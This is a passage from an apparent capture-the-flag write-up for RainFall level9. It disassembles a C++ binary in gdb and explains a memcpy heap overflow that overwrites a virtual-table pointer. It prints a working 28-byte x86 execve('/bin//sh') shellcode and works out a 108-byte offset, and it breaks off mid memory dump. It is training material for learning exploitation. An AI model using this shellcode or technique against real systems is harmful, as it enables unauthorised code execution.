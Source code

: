 # Preparations

Entering level9 home directory we see a level9 binary with sticky bit in access rights.
By objdumping the binary we see only main function with classes:

	level9@RainFall:~$ objdump -D -M intel-mnemonic level9 > /tmp/dump9

Why do we do objdump first? Maybe in this exercise a function exists but is not used so we need to see all the functions.

# Code writing

We start to work with gdb in Intel syntax (set disassembly-flavor intel):

	(gdb) disass main
	Dump of assembler code for function main:
	   0x080485f4 <+0>:	push   ebp
	   0x080485f5 <+1>:	mov    ebp,esp
	   0x080485f7 <+3>:	push   ebx
	   0x080485f8 <+4>:	and    esp,0xfffffff0
	   0x080485fb <+7>:	sub    esp,0x20
	   0x080485fe <+10>:	cmp    DWORD PTR [ebp+0x8],0x1			;check arguments
	   0x08048602 <+14>:	jg     0x8048610 <main+28>			;jump if not according to condition (first operand is more than second operand)
	   0x08048604 <+16>:	mov    DWORD PTR [esp],0x1			;argument for exit
	   0x0804860b <+23>:	call   0x80484f0 <_exit@plt>			;call exit
	   0x08048610 <+28>:	mov    DWORD PTR [esp],0x6c			;preparation to calling the class
	   0x08048617 <+35>:	call   0x8048530 <_Znwj@plt>			;calling the class
	   0x0804861c <+40>:	mov    ebx,eax					;preparations to calling the method
	   0x0804861e <+42>:	mov    DWORD PTR [esp+0x4],0x5			;argument for calling the method
	   0x08048626 <+50>:	mov    DWORD PTR [esp],ebx			;preparations to calling the method
	   0x08048629 <+53>:	call   0x80486f6 <_ZN1NC2Ei>			;calling the method new
	   0x0804862e <+58>:	mov    DWORD PTR [esp+0x1c],ebx			;result to the variable
	   0x08048632 <+62>:	mov    DWORD PTR [esp],0x6c			;preparation to calling the class
	   0x08048639 <+69>:	call   0x8048530 <_Znwj@plt>			;calling the class
	   0x0804863e <+74>:	mov    ebx,eax					;preparations to calling the method
	   0x08048640 <+76>:	mov    DWORD PTR [esp+0x4],0x6			;argument for calling the method
	   0x08048648 <+84>:	mov    DWORD PTR [esp],ebx			;preparations to calling the method
	   0x0804864b <+87>:	call   0x80486f6 <_ZN1NC2Ei>			;calling the method new
	   0x08048650 <+92>:	mov    DWORD PTR [esp+0x18],ebx			;result to the variable
	   0x08048654 <+96>:	mov    eax,DWORD PTR [esp+0x1c]			;dealing with variable where we put result with 5
	   0x08048658 <+100>:	mov    DWORD PTR [esp+0x14],eax			;put variable to stack
	   0x0804865c <+104>:	mov    eax,DWORD PTR [esp+0x18]			;dealing with variable where we put result with 6
	   0x08048660 <+108>:	mov    DWORD PTR [esp+0x10],eax			;put variable to stack
	   0x08048664 <+112>:	mov    eax,DWORD PTR [ebp+0xc]			;taking the argument array
	   0x08048667 <+115>:	add    eax,0x4					;taking the first argument from the array
	   0x0804866a <+118>:	mov    eax,DWORD PTR [eax]			;preparing arguments for the method setAnnotation
	   0x0804866c <+120>:	mov    DWORD PTR [esp+0x4],eax			;preparing arguments for the method setAnnotation
	   0x08048670 <+124>:	mov    eax,DWORD PTR [esp+0x14]			;preparing arguments for the method setAnnotation
	   0x08048674 <+128>:	mov    DWORD PTR [esp],eax			;preparing arguments for the method setAnnotation
	   0x08048677 <+131>:	call   0x804870e <_ZN1N13setAnnotationEPc>	;call method setAnnotation
	   0x0804867c <+136>:	mov    eax,DWORD PTR [esp+0x10]			;dealing with variable where we put result with 6
	   0x08048680 <+140>:	mov    eax,DWORD PTR [eax]			;dereferencing pointer
	   0x08048682 <+142>:	mov    edx,DWORD PTR [eax]			;dereferencing pointer
	   0x08048684 <+144>:	mov    eax,DWORD PTR [esp+0x14]			;dealing with variable where we put result with 5
	   0x08048688 <+148>:	mov    DWORD PTR [esp+0x4],eax			;preparation for calling the function
	   0x0804868c <+152>:	mov    eax,DWORD PTR [esp+0x10]			;preparation for calling the function
	   0x08048690 <+156>:	mov    DWORD PTR [esp],eax			;preparation for calling the function
	   0x08048693 <+159>:	call   edx					;calling function from class
	   0x08048695 <+161>:	mov    ebx,DWORD PTR [ebp-0x4]
	   0x08048698 <+164>:	leave
	   0x08048699 <+165>:	ret
	End of assembler dump.

Plus we need to see what is inside the classes (we saw them in dump from objdump):

	(gdb) disass _ZN1NC2Ei
	Dump of assembler code for function _ZN1NC2Ei:
	   0x080486f6 <+0>:	push   ebp
	   0x080486f7 <+1>:	mov    ebp,esp
	   0x080486f9 <+3>:	mov    eax,DWORD PTR [ebp+0x8]			;dealing with argument to the method
	   0x080486fc <+6>:	mov    DWORD PTR [eax],0x8048848		;address to the other method
	   0x08048702 <+12>:	mov    eax,DWORD PTR [ebp+0x8]			;dealing with argument to the method
	   0x08048705 <+15>:	mov    edx,DWORD PTR [ebp+0xc]			;dealing with something from the class
	   0x08048708 <+18>:	mov    DWORD PTR [eax+0x68],edx			;result of something from the class
	   0x0804870b <+21>:	pop    ebp
	   0x0804870c <+22>:	ret
	End of assembler dump.
	(gdb) disass _ZN1N13setAnnotationEPc
	Dump of assembler code for function _ZN1N13setAnnotationEPc:
	   0x0804870e <+0>:	push   ebp
	   0x0804870f <+1>:	mov    ebp,esp
	   0x08048711 <+3>:	sub    esp,0x18
	   0x08048714 <+6>:	mov    eax,DWORD PTR [ebp+0xc]			;preparation to strlen, argument to the method
	   0x08048717 <+9>:	mov    DWORD PTR [esp],eax			;preparation to strlen
	   0x0804871a <+12>:	call   0x8048520 <strlen@plt>			;call strlen
	   0x0804871f <+17>:	mov    edx,DWORD PTR [ebp+0x8]			;result of strlen
	   0x08048722 <+20>:	add    edx,0x4					;shift 4 bytes in buffer 
	   0x08048725 <+23>:	mov    DWORD PTR [esp+0x8],eax			;preparations to memcpy
	   0x08048729 <+27>:	mov    eax,DWORD PTR [ebp+0xc]			;preparations to memcpy
	   0x0804872c <+30>:	mov    DWORD PTR [esp+0x4],eax			;preparations to memcpy
	   0x08048730 <+34>:	mov    DWORD PTR [esp],edx			;preparations to memcpy
	   0x08048733 <+37>:	call   0x8048510 <memcpy@plt>			;call memcpy
	   0x08048738 <+42>:	leave
	   0x08048739 <+43>:	ret
	End of assembler dump.
	(gdb) disass _ZN1NplERS_
	Dump of assembler code for function _ZN1NplERS_:
	   0x0804873a <+0>:	push   ebp
	   0x0804873b <+1>:	mov    ebp,esp
	   0x0804873d <+3>:	mov    eax,DWORD PTR [ebp+0x8]			;dealing with argument to method
	   0x08048740 <+6>:	mov    edx,DWORD PTR [eax+0x68]			;dealing with what we add to the value inside the method
	   0x08048743 <+9>:	mov    eax,DWORD PTR [ebp+0xc]			;dealing with argument to method
	   0x08048746 <+12>:	mov    eax,DWORD PTR [eax+0x68]			;dealing with argument to method
	   0x08048749 <+15>:	add    eax,edx					;the main action
	   0x0804874b <+17>:	pop    ebp
	   0x0804874c <+18>:	ret
	End of assembler dump.
	(gdb) disass _ZN1NmiERS_
	Dump of assembler code for function _ZN1NmiERS_:
	   0x0804874e <+0>:	push   ebp
	   0x0804874f <+1>:	mov    ebp,esp
	   0x08048751 <+3>:	mov    eax,DWORD PTR [ebp+0x8]			;dealing with argument to method
	   0x08048754 <+6>:	mov    edx,DWORD PTR [eax+0x68]			;dealing with what we substract from the value inside the method
	   0x08048757 <+9>:	mov    eax,DWORD PTR [ebp+0xc]			;dealing with argument to method
	   0x0804875a <+12>:	mov    eax,DWORD PTR [eax+0x68]			;dealing with argument to method
	   0x0804875d <+15>:	mov    ecx,edx					;the main action
	   0x0804875f <+17>:	sub    ecx,eax					;the main action
	   0x08048761 <+19>:	mov    eax,ecx					;the main action
	   0x08048763 <+21>:	pop    ebp
	   0x08048764 <+22>:	ret
	End of assembler dump.

Let's transfer numbers from hex to decimal in methods and see what is inside the adresses:

	(gdb) p 0x68
		$2 = 104
		(gdb) p 0x8
		$3 = 8
		(gdb) p 0xc
		$4 = 12
	(gdb) x/wx 0x8048848
		0x8048848 <_ZTV1N+8>:	0x0804873a
		(gdb) x/wx 0x0804873a
		0x804873a <_ZN1NplERS_>:	0x8be58955

So from one method we call some other one not directly but through the table. Finally we write the code in C++.

# Exploitation

Explotation is done because of dereferencing and how data (strings and numbers lie in the class). We can overwrite values and insert shellcode with the help of `memcpy` in setAnnotation method. Why do we need shellcode? Inside this level we do not see any calls of `system` or `execve` and we need to get control of the terminal under user bonus0. So we need to insert shellcode as a spoiled pillow to some place in the code. What shellcode for linux x86 we will use:

	\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80

What does it mean:

	Disassembly of section .text:

	08048060 <_start>:
	 8048060: 31 c0                 xor    %eax,%eax
	 8048062: 50                    push   %eax
	 8048063: 68 2f 2f 73 68        push   $0x68732f2f	;'//sh'
	 8048068: 68 2f 62 69 6e        push   $0x6e69622f	;'/bin'
	 804806d: 89 e3                 mov    %esp,%ebx	;copy string (command) address
	 804806f: 89 c1                 mov    %eax,%ecx
	 8048071: 89 c2                 mov    %eax,%edx
	 8048073: b0 0b                 mov    $0xb,%al	;11
	 8048075: cd 80                 int    $0x80	;execve()
	 8048077: 31 c0                 xor    %eax,%eax
	 8048079: 40                    inc    %eax
	 804807a: cd 80                 int    $0x80	;restart_syscall()

Shellcode length is 28 bytes that is very important because we need to count where to put it so that it is executed and does not break the programm.
We count where to put the shellcode while counting `EIP` offset. This we can do with the help of special strings: https://wiremask.eu/tools/buffer-overflow-pattern-generator/. We get address 0x41366441 that means that offset is 108:

	Breakpoint 6, 0x08048677 in main ()
	(gdb) x/50wx $ebp+0xc
		0xbffff644:	0xbffff6d4	0xbffff6e0	0xb7fdc860	0x00000000
	(gdb) x/50wx 0xbffff6d4
		0xbffff6d4:	0xbffff7f9	0xbffff812	0x00000000	0xbffff8db
	(gdb) x/100wx 0xbffff7f9
		0xbffff7f9:	0x6d6f682f	0x73752f65	0x6c2f7265	0x6c657665
		0xbffff809:	0x656c2f39	0x396c6576	0x30614100	0x41316141
		0xbffff819:	0x61413261	0x34614133	0x41356141	0x61413661
		0xbffff829:	0x38614137	0x41396141	0x62413062	0x32624131
		0xbffff839:	0x41336241	0x62413462	0x36624135	0x41376241
		0xbffff849:	0x62413862	0x30634139	0x41316341	0x63413263
		0xbffff859:	0x34634133	0x41356341	0x63413663	0x38634137
		0xbffff8